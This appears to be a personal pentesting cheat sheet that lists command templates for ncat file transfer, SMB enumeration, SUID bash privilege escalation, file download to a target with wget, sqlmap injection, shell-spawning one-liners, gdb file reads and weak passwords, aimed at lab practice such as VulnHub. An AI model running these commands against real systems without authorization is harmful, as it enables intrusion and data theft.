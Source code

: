 # HackNotes 【第一】🐱‍💻 my personal pentest notes

## Introduction to Cyber Security

Cybersecurity is the body of technologies, processes and practices designed to protect networks, computers, programs and data from attack, damage or unauthorized access

## Basics

### nmap-ncat
##### Listen to Inbound Connections
`ncat -l [PORT]`
##### Connect to Remote System
`ncat [IP] [PORT]`
##### Copy Files Using ncat
Receiver: `ncat -l [PORT] > file.ext`
Sender: `ncat [IP] [PORT] --send-only < file.ext`

### SSH
ssh []@[] -i []
permission too open
`chmod 600 []`

### SMB
`smbclient -L [IP]`
`smbclient \\\\[IP]\\\[SHARENAME]`
##### try for write permission
`mkdir [DIR]`

##### Free root
-bash-5.0$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /bin/bash
type
`/bin/bash -p`

### SCP (Secure Copy)
##### Basic Syntax
`scp [SOURCE_FILE_PATH] [DESTINATION_FILE_PATH]`
##### Sending File From Remote Host to Local Host
`scp [user]@[IP]:/[PATH]/[PATH]/file.ext outputfile.ext`

### wget
##### Prepate the HTTP Server
`python-m http.server [PORT]`
##### On the Target Machine
`wget [IP/URL]:[PORT] -O filename.ext`

###SQL injection
#####sqlmap
`sqlmap --batch -u "[URL]" --data "[DATA]" --cookie "[]" -p [PARAM] --level=5 --dbms=[DB] --technique=T --dbs`

### Spawning 🐚
##### python
`python -c 'import pty; pty.spawn("/bin/sh")'`
##### echo
`echo 'os.system('/bin/bash')'`
##### bash
`/bin/bash -i`
##### sh
`/bin/sh -i`

### Useful Trickeries
##### gdb file read 
`gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit`

### Bad Passwords worth to try
- qazwsxedc
- p4ssw0rd

## Searching for Subdomains
### theHarvester
`theHarvester --domain [DOMAIN] --limit 1000 --source all`

## Misc

### WPScan
`wpscan --url [IP/URL] --api-token [TOKEN]`

### Encode Base64
the file name is base64.txt
`cat base64.txt | base64 -d`

### Fix Kali Linux WSL ping problem
`sudo setcap cap_net_raw+ep /usr/bin/ping`

### Easy Pentest Steps
#### Black-Box

## Learn From Walkthroughs
- https://medium.com/@bamroatbabak/seppuku-1-vulnhub-walkthrough-beea41846775 (brute forcing basic authentication)
- https://falconspy.medium.com/infosec-prep-oscp-vulnhubwalkthrough-a09519236025 (oscp material)
- https://offsecdeer.gitlab.io/post/vulnhub-walkthrough-dawn/ (SMB)

